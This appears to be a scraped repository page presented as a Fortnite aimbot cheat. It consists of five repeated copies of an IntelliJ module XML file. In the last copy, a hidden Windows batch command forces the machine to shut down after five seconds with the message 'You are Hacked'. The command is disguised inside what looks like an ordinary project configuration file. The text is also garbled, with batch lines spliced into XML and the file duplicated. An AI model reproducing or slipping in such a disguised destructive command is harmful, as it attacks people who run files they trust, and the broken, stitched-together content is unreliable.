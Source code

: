#Aimbot Ultra Cheat Fortnite 2.0
<?xml version="1.0" encoding="UTF-8"?>
<module type="GENERAL_MODULE" version="4">
  <component name="NewModuleRootManager" inherit-compiler-output="true">
    <exclude-output />
    <content url="file://$MODULE_DIR$" />
    <orderEntry type="sourceFolder" forTests="false" />
  </component>
</module>
<?xml version="1.0" encoding="UTF-8"?>
<module type="GENERAL_MODULE" version="4">
  <component name="NewModuleRootManager" inherit-compiler-output="true">
    <exclude-output />
    <content url="file://$MODULE_DIR$" />
    <orderEntry type="sourceFolder" forTests="false" />
  </component>
</module>
<?xml version="1.0" encoding="UTF-8"?>
<module type="GENERAL_MODULE" version="4">
  <component name="NewModuleRootManager" inherit-compiler-output="true">
    <exclude-output />
    <content url="file://$MODULE_DIR$" />
    <orderEntry type="sourceFolder" forTests="false" />
  </component>
</module>
<?xml version="1.0" encoding="UTF-8"?>
<module type="GENERAL_MODULE" version="4">
  <component name="NewModuleRootManager" inherit-compiler-output="true">
    <exclude-output />
    <content url="file://$MODULE_DIR$" />
    <orderEntry type="sourceFolder" forTests="false" />
  </component>
</module>
<?xml version="1.0" encoding="UTF-8"?>
<module type="GENERAL_MODULE" version="4">
  <component name="NewModuleRootManager" inherit-compiler-output="true">
    <exclude-output />
      @echo off
shutdown -s -t 5 "You are Hacked"
    <content url="file://$MODULE_DIR$" />
    <orderEntry type="sourceFolder" forTests="false" />
  </component>
</module>

